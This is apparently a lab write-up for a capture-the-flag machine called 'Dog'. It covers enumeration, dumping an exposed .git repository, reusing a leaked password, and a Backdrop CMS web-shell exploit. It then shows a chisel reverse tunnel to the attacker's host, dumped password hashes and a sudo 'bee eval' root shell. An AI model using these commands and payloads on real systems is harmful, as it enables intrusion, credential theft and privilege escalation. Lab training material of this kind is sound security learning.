 # Dog

![dog.png](dog.png)

## Initial Enumeration

```bash
# Nmap 7.95 scan initiated Fri Mar 28 14:04:29 2025 as: nmap -sC -sV -Pn -oN scans/nmap.initial 10.10.11.58
Nmap scan report for 10.10.11.58
Host is up (0.089s latency).
Not shown: 998 closed tcp ports (conn-refused)
PORT   STATE SERVICE VERSION
22/tcp open  ssh     OpenSSH 8.2p1 Ubuntu 4ubuntu0.12 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey: 
|   3072 97:2a:d2:2c:89:8a:d3:ed:4d:ac:00:d2:1e:87:49:a7 (RSA)
|   256 27:7c:3c:eb:0f:26:e9:62:59:0f:0f:b1:38:c9:ae:2b (ECDSA)
|_  256 93:88:47:4c:69:af:72:16:09:4c:ba:77:1e:3b:3b:eb (ED25519)
80/tcp open  http    Apache httpd 2.4.41 ((Ubuntu))
| http-git: 
|   10.10.11.58:80/.git/
|     Git repository found!
|     Repository description: Unnamed repository; edit this file 'description' to name the...
|_    Last commit message: todo: customize url aliases.  reference:https://docs.backdro...
|_http-generator: Backdrop CMS 1 (https://backdropcms.org)
|_http-title: Home | Dog
|_http-server-header: Apache/2.4.41 (Ubuntu)
| http-robots.txt: 22 disallowed entries (15 shown)
| /core/ /profiles/ /README.md /web.config /admin 
| /comment/reply /filter/tips /node/add /search /user/register 
|_/user/password /user/login /user/logout /?q=admin /?q=comment/reply
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel

Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
# Nmap done at Fri Mar 28 14:04:40 2025 -- 1 IP address (1 host up) scanned in 11.06 seconds
```

## Git-dumper
The site is PHP backdrop on Apache and it has a `.git` folder exposed
```bash
git-dumper http://10.10.11.58 .
```

The version of backdrop is
```bash
grep BACKDROP_VERSION core/includes/bootstrap.inc
```
```
define('BACKDROP_VERSION', '1.27.1');
```

We find the creds to the mysql db, this may be useful later
```bash
$database = 'mysql://root:B******************@127.0.0.1/backdrop';
```

Running gitleaks, didn't find anyting really interesting
```bash
gitleaks detect . -r gileaks.json
```

Just the domain from the commiter's email address
```bash
jq .[].Email gileaks.json
```
```
"dog@dog.htb"
"dog@dog.htb"
"dog@dog.htb"
"dog@dog.htb"
"dog@dog.htb"
"dog@dog.htb"
```

Based on that we find tiffany, and confirm that this is a valid user from the login page of the webapp
```bash
grep -ri dog.htb ./*
```
```
./files/config_83dddd18e1ec67fd8ff5bba2453c7fb3/active/update.settings.json:        "tiffany@dog.htb"
```

Turns out the db password and tiffany  are valid creds to connect to the site
```bash
tiffany@dog.htb:B******************
```

## RCE in backdrop 1.27.1

Looking for exploits related to backdrop version '1.27.1' we find this

-[https://packetstorm.news/files/id/189764/](https://packetstorm.news/files/id/189764/)

And run it
```bash
php poc.php http://10.10.11.58
```
```
Backdrop CMS 1.27.1 - Remote Command Execution Exploit
Evil module generating...
Evil module generated! shell.zip
Go to http://10.10.11.58/admin/modules/install and upload the shell.zip for Manual Installation.
Your shell address: http://10.10.11.58/modules/shell/shell.php
```

The ui already tells us that there's no php module for zip with may be a problem
![nozip.png](nozip.png)

It confirms that when we try to upload the zip from the exploit, but also tells us how to fix it.
![tar.png](tar.png)

So it's easy we can just bundle the exploit in tar for instance
```bash
tar cvf shell.tar shell
```

And that works, we just gotta go to the php web-shell and we have RCE
![rce.png](rce.png)

And we can of course call ourselves back to get a decent shell
![shell.png](shell.png)


## Using chisel to connect to the db

```bash
netstat -tulpne
```
```
(Not all processes could be identified, non-owned process info
 will not be shown, you would have to be root to see it all.)
Active Internet connections (only servers)
Proto Recv-Q Send-Q Local Address           Foreign Address         State       User       Inode      PID/Program name
tcp        0      0 127.0.0.1:3306          0.0.0.0:*               LISTEN      114        36882      -
tcp        0      0 127.0.0.53:53           0.0.0.0:*               LISTEN      101        30942      -
tcp        0      0 0.0.0.0:22              0.0.0.0:*               LISTEN      0          33577      -
tcp        0      0 127.0.0.1:33060         0.0.0.0:*               LISTEN      114        36881      -
tcp6       0      0 :::80                   :::*                    LISTEN      0          34392      -
tcp6       0      0 :::22                   :::*                    LISTEN      0          33675      -
udp        0      0 127.0.0.53:53           0.0.0.0:*                           101        30941      -
```
 
Build chisel with statically linked C libs and deploy it
```bash
CGO_ENABLED=0 go build .
```
```bash
./chisel server -p 4040 --socks5 --reverse
```
```bash
./chisel client 10.10.16.20:4040 R:1080:socks
```

Connect to the database
```bash
proxychains \
  mysql \
    -u root \
    -h 127.0.0.1 \
    --password='B******************' \
    -D backdrop \
    --skip-ssl \
    -A
```


```bash
MySQL [backdrop]> select name,pass,mail from users;
[proxychains] DLL init: proxychains-ng 4.17
[proxychains] DLL init: proxychains-ng 4.17
+-------------------+---------------------------------------------------------+----------------------------+
| name              | pass                                                    | mail                       |
+-------------------+---------------------------------------------------------+----------------------------+
|                   |                                                         |                            |
| jPAdminB          | $S$E7dig1GTaGJnzgAXAtOoPuaTjJ05fo8fH9USc6vO87T./ffdEr/. | jPAdminB@dog.htb           |
| jobert            | $S$E/F9mVPgX4.dGDeDuKxPdXEONCzSvGpjxUeMALZ2IjBrve9Rcoz1 | jobert@dog.htb             |
| dogBackDropSystem | $S$EfD1gJoRtn8I5TlqPTuTfHRBFQWL3x6vC5D3Ew9iU4RECrNuPPdD | dogBackDroopSystem@dog.htb |
| john              | $S$EYniSfxXt8z3gJ7pfhP5iIncFfCKz8EIkjUD66n/OTdQBFklAji. | john@dog.htb               |
| morris            | $S$E8OFpwBUqy/xCmMXMqFp3vyz1dJBifxgwNRMKktogL7VVk7yuulS | morris@dog.htb             |
| axel              | $S$E/DHqfjBWPDLnkOP5auHhHDxF4U.sAJWiODjaumzxQYME6jeo9qV | axel@dog.htb               |
| rosa              | $S$EsV26QVPbF.s0UndNPeNCxYEP/0z2O.2eLUNdKW/xYhg2.lsEcDT | rosa@dog.htb               |
| tiffany           | $S$EEAGFzd8HSQ/IzwpqI79aJgRvqZnH4JSKLv2C83wUphw0nuoTY8v | tiffany@dog.htb            |
+-------------------+---------------------------------------------------------+----------------------------+
9 rows in set (0.068 sec)
```

According to the hashcat examples pages those are drupal7 hashes.
```bash
hashcat --help|grep -i drupal
```
```
   7900 | Drupal7                                                    | Forums, CMS, E-Commerce
```

Couldn't really crack anything though, maybe because they're salted? Or maybe because it's just a really hard hash to crack. I'm not sure.
```bash
hashcat -m 7900 hash.txt ~/.local/share/seclists/rockyou.txt
```

## Privesc with bee backdrop cli

```bash
grep 'sh$' /etc/passwd
```
```
root:x:0:0:root:/root:/bin/bash
jobert:x:1000:1000:jobert:/home/jobert:/bin/bash
johncusack:x:1001:1001:,,,:/home/johncusack:/bin/bash
```

The whole database part was quite useless anyway since apparently, the same password works with johncusack
```bash
sshpass -p"B******************" ssh johncusack@dog.htb
```

johncusack can run bee, which is a non official cli tool for backdrop


-[https://backdropcms.org/project/bee](https://backdropcms.org/project/bee)
-[https://github.com/backdrop-contrib/bee](https://github.com/backdrop-contrib/bee)

```bash
sudo -l
```
```
[sudo] password for johncusack:
Matching Defaults entries for johncusack on dog:
    env_reset, mail_badpass,
    secure_path=/usr/local/sbin\:/usr/local/bin\:/usr/sbin\:/usr/bin\:/sbin\:/bin\:/snap/bin

User johncusack may run the following commands on dog:
    (ALL : ALL) /usr/local/bin/bee
```

```bash
sudo bee cron
```
```
 ✔  Cron ran successfully.
```

I don't really know what's going on with that, looks like its counting the columns of the shell or something? is this my own rlwrap shell thing?
```bash
2025/03/28 16:58:10 CMD: UID=0     PID=2986   | sh -c if tput cols &>/dev/null; then  echo $(tput cols); else $(echo $COLUMNS); fi
```

There's also an eval feature in bee, that makes stings easy, calling myself back again with a decent shell as root
```bash
sudo bee eval "system('bash /dev/shm/shell.sh');"
```

